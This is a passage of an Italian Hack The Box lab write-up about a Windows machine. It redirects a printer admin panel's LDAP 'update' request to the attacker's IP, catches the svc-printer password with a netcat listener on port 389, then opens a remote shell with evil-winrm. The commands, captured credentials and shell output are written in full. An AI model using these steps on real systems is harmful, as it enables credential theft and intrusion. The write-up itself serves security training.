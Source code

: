 ![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251028220328.png)

Vediamo cosa succede cliccando su `update` utilizzando [[burpsuite]]. Catturiamo, mandiamo al repeater, cambiamo il parametro `ip=printer.return.local `con `ip=<nostro IP>`, ci mettiamo in ascolto sulla nostra porta `389` (sudo nc -nlvp 389), che è la server port, e poi mandiamo con send 
-> siamo dentro (è una dashboard amministrativa di una stampante) e vediamo subito una password: 

``` bash
Connection received on 10.10.11.108 58114
0*`%return\svc-printer 
                       1edFg43012!!
```

User: svc-printer
Password: 1edFg43012!!
### Evil-winrm
Usiamo [[evil-winrm]]sul servizio winrm che utilizza la porta 5985 che abbiamo visto essere aperta. [[evil-winrm]]ha lo scopo di creare una shell se si dispone delle utenze. Verranno usate quelle scoperte in precedenza.
`evil-winrm -i '10.10.11.108' -u 'svc-printer' -p '1edFg43012!!'`
Stabiliamo una connessione con l'endpoint remoto
``` bash
❯ evil-winrm -i '10.10.11.108' -u 'svc-printer' -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```
